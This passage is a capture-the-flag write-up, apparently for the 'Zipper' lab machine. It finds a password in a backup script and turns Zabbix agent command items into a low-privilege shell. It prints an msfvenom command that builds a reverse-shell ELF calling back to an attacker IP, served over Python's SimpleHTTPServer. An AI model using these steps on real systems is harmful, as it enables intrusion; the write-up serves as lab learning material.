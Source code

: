 
{% include image.html image_alt="1b94fe82.png" image_src="/736c413d-3bf5-4f8a-811e-5780357787d0/1b94fe82.png" %}


Anyway, I found a `/backups` directory containing two password-protected 7-zip files.


{% include image.html image_alt="7dcee928.png" image_src="/736c413d-3bf5-4f8a-811e-5780357787d0/7dcee928.png" %}


I also found a copy of `backup_script.sh` lying around.


{% include image.html image_alt="ef6a93a3.png" image_src="/736c413d-3bf5-4f8a-811e-5780357787d0/ef6a93a3.png" %}


The password is in `backup_script.sh`!


{% include image.html image_alt="db8e3bd0.png" image_src="/736c413d-3bf5-4f8a-811e-5780357787d0/db8e3bd0.png" %}


Let's keep the password in mind. It might be useful later.

## Low-Privilege Shell

I found the key to getting a low-privilege shell while exploring the Zabbix server. I noticed that there's a host Zipper installed with a Zabbix Agent, and one can create an item to instruct the agent to run system commands like so!


{% include image.html image_alt="f37793ae.png" image_src="/736c413d-3bf5-4f8a-811e-5780357787d0/f37793ae.png" %}


I generated a reverse shell with `msfvenom`. Prior to this, I've experimented with various commands and verified that the host is running 32-bit Ubuntu. Next, to facilitate transfer of the reverse shell, I host the executable with Python's SimpleHTTPServer.

```
# msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.13.52 LPORT=4321 -f elf -o rev
# python -m SimpleHTTPServer 80
```

The moment I caught the reverse shell, I immediately deleted the item to prevent the command from running again.


{% include image.html image_alt="ae58be7b.png" image_src="/736c413d-3bf5-4f8a-811e-5780357787d0/ae58be7b.png" %}


Let's upgrade the shell to a full TTY since Python 3 is available.


{% include image.html image_alt="c494c229.png" image_src="/736c413d-3bf5-4f8a-811e-5780357787d0/c494c229.png" %}


I'm in Zipper alright! Recall the password earlier? Let's see if we can `su` to `zapper`.
